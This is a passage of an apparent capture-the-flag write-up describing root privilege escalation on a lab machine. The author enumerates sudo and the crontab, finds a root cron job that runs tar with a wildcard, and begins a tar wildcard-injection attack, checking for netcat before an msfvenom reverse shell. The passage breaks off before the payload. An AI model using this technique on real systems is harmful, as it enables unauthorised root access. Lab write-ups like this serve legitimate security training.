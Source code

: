 ## Privilege Escalation → root

I tried with `sudo -l` command but it did not work:

```
[REDACTED]@cmess:~$ sudo -l
sudo -l
[sudo] password for [REDACTED]: [REDACTED]

Sorry, user [REDACTED] may not run sudo on cmess.
```

Therefore, I use another common way to escalate privilege is **cronjobs enumeration**:

```
[REDACTED]@cmess:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/[REDACTED]/backup && tar -zcf /tmp/[REDACTED]_backup.tar.gz *
```

Look at the bottom line, the **root** user had been set to automatically use `tar` to extract the `[REDACTED]_backup.tar.gz` into `/home/[REDACTED]/backup` directory. There is a technique to exploit the `tar` service and other similar ones called **Wildcard Injection**. I will follow the instruction from this [source](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/): (Use the given keyword to read more about this vulnerability)

First, I will verify that the `netcat` service is available on the target machine:

```
[REDACTED]@cmess:~/backup$ whereis netcat
whereis netcat
netcat: /bin/netcat /usr/share/man/man1/netcat.1.gz
[REDACTED]@cmess:~/backup$ ls -l /bin/ | grep "netcat"
ls -l /bin/ | grep "netcat"
lrwxrwxrwx 1 root root      24 Feb  6  2020 netcat -> /etc/alternatives/netcat
```

I create a reverse shell payload using `msfvenom`:
